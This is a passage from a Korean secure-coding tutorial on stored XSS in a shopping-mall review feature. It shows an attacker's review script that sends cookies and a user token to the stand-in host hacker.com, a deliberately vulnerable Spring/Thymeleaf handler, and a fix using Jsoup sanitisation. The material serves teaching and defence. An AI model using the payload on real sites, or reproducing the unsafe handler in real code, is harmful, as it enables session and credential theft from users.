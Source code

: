
#### 🎬 실제 공격 vs 방어 시나리오

- 시나리오: 온라인 쇼핑몰 후기 시스템

**1. 공격자의 시도**:

```javascript
// 공격자가 후기에 작성하는 내용
const maliciousReview = `
상품 정말 좋아요! 5점 드립니다!
<script>
  // 사용자 정보 털어가기
  fetch('http://hacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: localStorage.getItem('userToken'),
      currentUrl: window.location.href
    })
  });
</script>
`;
```

**2. 취약한 시스템 (공격 성공)**:

```java
// ❌ 위험한 코드 - 공격 성공!
@PostMapping("/reviews")
public String addReview(@RequestParam String content) {
    Review review = new Review();
    review.setContent(content);  // 악성 스크립트 그대로 저장!
    reviewRepository.save(review);
    return "redirect:/reviews";
}
```

```html
<!-- ❌ 위험한 템플릿 - 스크립트 실행됨! -->
<div th:utext="${review.content}"></div>
```

**3. 안전한 시스템 (공격 차단)**:

```java
// ✅ 안전한 코드 - 공격 차단!
@PostMapping("/reviews")
public String addReview(@RequestParam String content) {

    // 1단계: 입력 검증
    if (!xssDefense.isValidInput(content)) {
        return "error/invalid-input";
    }

    // 2단계: 정화해서 저장
    String cleanContent = xssDefense.sanitizeInput(content);

    Review review = new Review();
    review.setContent(cleanContent);
    reviewRepository.save(review);

    return "redirect:/reviews";
}

// 정화 메서드
public String sanitizeInput(String input) {
    // Jsoup 라이브러리로 HTML 정화
    return Jsoup.clean(input, Safelist.basicWithImages());
```